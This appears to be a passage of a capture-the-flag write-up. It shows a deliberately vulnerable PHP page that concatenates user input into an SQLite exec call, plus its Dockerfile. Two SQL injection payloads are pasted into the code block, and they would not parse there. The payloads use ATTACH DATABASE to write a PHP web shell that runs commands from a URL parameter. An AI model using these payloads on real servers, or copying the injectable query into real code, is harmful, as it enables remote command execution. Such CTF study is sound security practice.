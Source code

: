 ### Description/Source

We are given a dockerfile and the source code

_index.php_ (mostly the impt parts)

```php
<?php
    if (!isset($_SESSION["DBNAME"])) {
        $dbname = hash("sha256", (string) rand());
        $_SESSION["DBNAME"] = $dbname;
        $init = true;
    } else {
        $dbname = $_SESSION["DBNAME"];
        $init = false;
    }
    $pdo = new PDO("sqlite:/tmp/$dbname.db");
    if ($init) {
        $pdo->exec("CREATE TABLE Flags (flag string); INSERT INTO Flags VALUES ('actf{not_the_flag}'), ('actf{maybe_the_flag}')");
    }
    if (isset($_POST["flag"])) {
        $flag = $_POST["flag"];
        $pdo->exec("INSERT INTO Flags VALUES ('$flag');");
            a'); ATTACH DATABASE '/var/www/html/abyss/bar.php' AS j;CREATE TABLE j.k (f text);--
            a'); ATTACH DATABASE '/var/www/html/abyss/bar.php' AS j;INSERT INTO j.k (f) VALUES ("<? system($_GET['cmd']);?>");--

    }
    foreach ($pdo->query("SELECT * FROM Flags") as $row) {
        echo "<li>" . htmlspecialchars($row["flag"]) . "</li>";
    }
?>
</ul>
<h2>Add a Fake Flag</h2>
<form action="/" method="POST">
    <input type="text" name="flag" placeholder="flag...">
    <input type="submit" value="Add">
</form>
```

_Dockerfile_

```bash
FROM php:8.1.5-apache-bullseye

# executable that prints the flag
COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html

RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80

```
